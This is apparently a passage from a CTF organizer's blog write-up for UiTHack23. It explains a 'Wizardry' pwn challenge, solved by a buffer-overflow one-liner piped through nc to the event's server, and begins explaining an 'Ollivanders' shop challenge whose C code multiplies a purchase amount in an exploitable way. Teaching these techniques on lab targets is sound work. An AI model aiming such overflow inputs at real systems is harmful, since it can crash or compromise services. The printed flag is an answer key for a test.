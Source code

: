 ```yaml
---
title: UiTHack23
date: 2023-01-16 10:30:00 +0100
categories: [CTF, "2023"]
tags: [ctf, uithack, "2023", pyexe, pyarmor, pwn, web, crypto, misc, rev, "prototype pollution", "rop", "ret2win", "python"]
---
```

UiTHack is a yearly beginner-friendly ctf-competition hosted by students at UiT (with a couple not so beginner-friendly challenges aswell this year out of the total of 31). This year was my first time participating in the organizing of the event. The challenges can be found [here](https://github.com/td-org-uit-no/UiTHack23).<br>
Here are the writeups for the 11 challenges I wrote for UiTHack23.

# Pwn - Wizardry
> Pwn - 50pts
>
> Gryffindor has gotten their flag stolen by another house. Rumour has it that it is hidden behind this spell. <br>
> Break the spell to get the flag!

The binary and source-code were provided for this challenge.

The signal handler in the code calls the _print\_flag_ function when a segmentation fault occurs, so we will get the flag by breaking the program with a segmentation fault.

The program reads in 100 bytes with _fgets_, but the buffer it reads in to is only 40 bytes in size, making us able to overflow the buffer to crash the program (with a segmentation fault).

You get the flag by writing **more** than 54 bytes to the program.
```bash
$ python3 -c "print('a'*55)" | nc motherload.td.org.uit.no 8005
Give me some input:
>> aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
UiTHack23{W1ng4rd1um_l3vi0s4aa4}
```
{: .nolineno }

# Pwn - Ollivanders
> Pwn - 100pts
>
> Before you go to Hogwarts you need to buy yourself a proper wand. <br>
> Visit Mr. Ollivander's shop and see if he has something interesting to sell you!

The binary and source-code were provided for this challenge.

Looking at the source code we can see that we can only buy items from the shop. We do not have enough galleons to buy the flag, but we can buy a wand for 7g. <br>

Buying the *Holly wand* we are prompted with
```
How many would you like to buy?
```
Looking at the source code we can see that our input is multiplied with the price, and subtracted from our galleons amount
```c
if(item == 1){
  amount = buy_amount();
  if((galleons - 7 * amount) < 0){
    puts("Not enough galleons!\n");
    return galleons;
  }
  galleons -= 7 * amount;
  puts("\nYou have purchased the Holly wand!");
```